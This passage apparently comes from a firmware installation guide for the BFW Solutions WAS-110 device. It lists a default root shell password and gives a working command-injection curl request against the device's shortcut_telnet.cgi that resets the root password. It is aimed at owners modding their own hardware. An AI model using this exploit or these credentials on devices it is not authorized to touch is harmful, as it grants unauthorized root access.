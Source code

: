 ### Shell credentials

=== "&lt;= v1.0.20"

    | Username | Password       |
    | -------- | -------------- |
    | root     | QpZm@4246#5753 |

=== "v1.0.21"

    !!! warning "The root password is not known at this time."

    ??? tip "Exploit to temporarily change the root password"
        Temporarily change the root password to `root`.

        === "Windows"

            ``` doscon
            > curl -s -o null "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?%7B%20echo%20root%20%3B%20sleep%201%3B%20echo%20root%3B%20%7D%20%7C%20passwd%20root"
            ```

        === "macOS / Linux"

            ``` console
            $ curl -s -o /dev/null "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?%7B%20echo%20root%20%3B%20sleep%201%3B%20echo%20root%3B%20%7D%20%7C%20passwd%20root"
            ```
### Local upgrade

The extracted `local-upgrade.tar` includes a <ins>safer</ins> upgrade script in comparison to the built-in web UI.

<h4>Enable SSH</h4>

SSH must be enabled from the web UI prior to running the shell commands.

![WAS-110 login](install-8311-community-firmware-on-the-bfw-solutions-was-110/was_110_login.webp)
